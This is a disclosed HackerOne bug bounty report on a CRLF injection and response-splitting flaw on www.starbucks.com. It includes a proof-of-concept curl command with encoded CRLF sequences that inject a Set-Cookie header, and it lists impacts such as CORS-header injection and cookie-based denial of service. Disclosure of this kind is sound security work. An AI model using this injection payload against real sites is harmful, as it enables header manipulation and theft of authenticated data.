 # CRLF injection on www.starbucks.com

## Report Details
- **Report ID**: 858650
- **URL**: https://hackerone.com/reports/858650
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-24T13:24:18.455Z
- **Disclosed**: 2020-09-01T21:59:31.978Z

## Reporter
- **Username**: x3n0nn3p
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
The vulnerability allows setting arbitrary headers, and also enables response splitting which can then be exploited further.

POC:
curl -i 'https://www.starbucks.com/email-prospecttg9wh%0d%0aset-cookie:foo%0d%0a%0d%0a4t6uf?requesturl=/responsibility/global-report/policies' -d 'newsletter_signup_email=&newsletter_signup_zipcode=&newsletter_placement=footer' --http1.1

Screenshot Attached.


Regards

## Impact

### Impact
Possible impacts include;
- Stealing authenticated information via Ajax request with injected CORS headers
- Application DOS using overly long Cookies, etc.

## Attachments
- starbucks.jpg
